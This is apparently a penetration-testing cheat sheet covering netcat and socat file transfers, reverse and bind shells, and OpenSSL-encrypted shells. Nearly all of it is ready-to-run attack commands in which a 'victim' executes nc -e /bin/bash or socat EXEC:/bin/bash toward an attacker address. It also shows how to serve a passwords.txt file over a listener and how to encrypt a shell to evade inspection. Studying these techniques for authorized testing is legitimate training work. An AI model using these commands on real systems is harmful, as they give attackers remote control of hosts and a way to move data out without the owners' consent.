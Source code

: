 ## File Transfers
- netcat
	- send wget.exe to a nc listener on port 4444:
`nc -nv {ip-address} 4444 < /usr/share/windows-resources/binaries/wget.exe`
	- receive a file on port 4444 and name it wget.exe:
`nc -nlvp 4444 > wget.exe`

- socat
	- Share a file called passwords.txt on port 443:
`sudo socat TCP4-LISTEN:443,fork file:passwords.txt`
	- Receive a file being hosted on port 443 and save it to passwords.txt:
`socat TCP4:{ip-address}:443 file:passwords.txt,create`

## Reverse Shells
Victim connnects and attacker listens. Used 95% of the time.

- netcat
	- attacker runs: `nc -nlvp 4444`
	- victim runs: `nc -nv {ip-address} 4444 -e /bin/bash` 
- socat
	- attacker runs: `sudo socat -d -d  TCP4-LISTEN:4444 STDOUT`
	- victim runs: `socat TCP4:{ip-address}:4444 EXEC:/bin/bash`

## Bind Shells
Victim listens and attacker connects. Useful when bypassing firewalls or when reverse shells "just don't work".

- netcat
	- victim runs: `nc -nlvp 4444 -e cmd.exe`
	- attacker runs: `nc -nv 10.11.0.22 4444`

- socat
	- victim runs: `socat -d -d TCP4-LISTEN:4444 EXEC:/bin/bash`
	- attacker runs: `socat - TCP4:{ip-address}:4444`

## Encrypted shells with OpenSSL
Utilize SSL certificates to encrypt data sent between hosts

- create an openssl certificate
	- `openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 100 -out bind_shell.crt`
- concatenate the certififcate and private key into a .pem file
	- `cat bind_shell.key bind_shell.crt > bind_shell.pem`
 - socat listener utilizing the cert
 	- `sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
 - socat SSL connection to listener
 	- `socat - OPENSSL:{ip-address}:443,verify=0`
